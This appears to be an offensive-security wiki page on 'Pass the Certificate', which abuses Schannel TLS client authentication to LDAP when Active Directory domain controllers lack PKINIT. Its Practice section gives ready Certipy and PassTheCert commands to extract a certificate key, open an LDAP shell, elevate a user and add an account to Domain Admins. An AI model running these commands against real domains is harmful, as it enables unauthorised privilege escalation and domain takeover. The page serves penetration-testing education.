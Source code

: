 ```yaml
---
authors: 'ShutdownRepo, ThePirateWhoSmellsOfSunflowers'
category: ad
---
```


# Pass the Certificate

> [!NOTE]
> This technique extends the notion of [Pass the Certificate](../kerberos/pass-the-certificate.md), thus dubbed by myself, [@_nwodtuhs](https://twitter.com/_nwodtuhs/), in a Twitter thread about AD CS and PKINIT [here](https://twitter.com/_nwodtuhs/status/1451510341041594377). Even if both techniques share the same name and the same concept, the authentication method is different.

## Theory

Sometimes, Domain Controllers do not support [PKINIT](../kerberos/pass-the-certificate.md). This can be because their certificates do not have the `Smart Card Logon` EKU. Most of the time, domain controllers return `KDC_ERR_PADATA_TYPE_NOSUPP` error when the EKU is missing. Fortunately, several protocols — including LDAP — support Schannel, thus authentication through TLS. As the term "schannel authentication" is derived from the [Schannel SSP (Security Service Provider)](https://learn.microsoft.com/en-us/windows-server/security/tls/tls-ssl-schannel-ssp-overview) which is the Microsoft SSL/TLS implementation in Windows, it is important to note that schannel authentication is a SSL/TLS client authentication.

> [!TIP]
> * Schannel authentication relies on TLS so it is, by design, not subject to channel binding, as the authentication is borne by TLS itself.
> * Schannel is not subject to LDAP signing either as the `bind` is performed after a StartTLS command when used on the LDAP TCP port.

## Practice

::: tabs

=== UNIX-like

Tools like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (python version) and [Certipy](https://github.com/ly4k/Certipy) can be used to authenticate with the certificate via Schannel against LDAP.

```bash
# If you use Certipy to retrieve certificates, you can extract key and cert from the pfx by using:
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key

# elevate a user (it assumes that the domain account for which the certificate was issued, holds privileges to elevate user)
passthecert.py -action modify_user -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1" -target user_sam -elevate

# spawn a LDAP shell
passthecert.py -action ldap-shell -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1"
certipy auth -pfx -dc-ip "10.0.0.1" -ldap-shell
```


=== Windows

Pass the cert technique can be done with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (C# version).

```bash
# Add simple_user to Domain Admins (it assumes that the domain account for which the certificate was issued, holds privileges to add user to this group)
.\PassTheCert.exe --server fqdn.domain.local --cert-path Z:\cert.pfx --add-account-to-group --target "CN=Domain Admins,CN=Users,DC=domain,DC=local" --account "CN=simple_user,CN=Users,DC=domain,DC=local"
```

:::


## Resources

[https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)

[Certified Pre-Owned (pdf)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

[https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)
